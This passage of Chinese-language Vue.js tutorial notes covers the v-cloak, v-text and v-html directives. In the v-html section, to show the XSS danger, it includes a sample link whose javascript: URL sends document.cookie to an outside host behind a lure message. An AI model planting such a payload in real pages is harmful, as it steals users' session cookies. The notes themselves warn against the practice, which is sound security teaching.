 ## 二、内置指令

#### 	1. v-cloak 解决页面闪烁问题	

> 1. 给指定的标签添加v-cloak指令 并设置显示隐藏的样式
> 2. 当vue引入完毕之后，会自动删除v-cloak的属性，同时数据也解析完毕了

```css
[v-cloak] {
	display: none;
}
<p v-cloak>{{message}}</p>
```

#### 	2. v-text  

类比jQuery里头的text()

- 作用：向其所在的节点中渲染文本内容。
- 与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。

```html
<div v-text="name"></div>
<div v-text="str"></div>
```

#### 	3. v-html  

类比jQuery里头的html()

1. 作用：向指定节点中渲染包含html结构的内容。

2. 与插值语法的区别：

   - v-html会替换掉节点中所有的内容，{{xx}}则不会。
   - v-html可以识别html结构。

3. 严重注意：v-html有安全性问题！！！！

   - 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

   - 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>
data:{
    name:'尚硅谷',
        str:'<h3>你好啊！</h3>',
        str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
}
```

#### 4. v-once
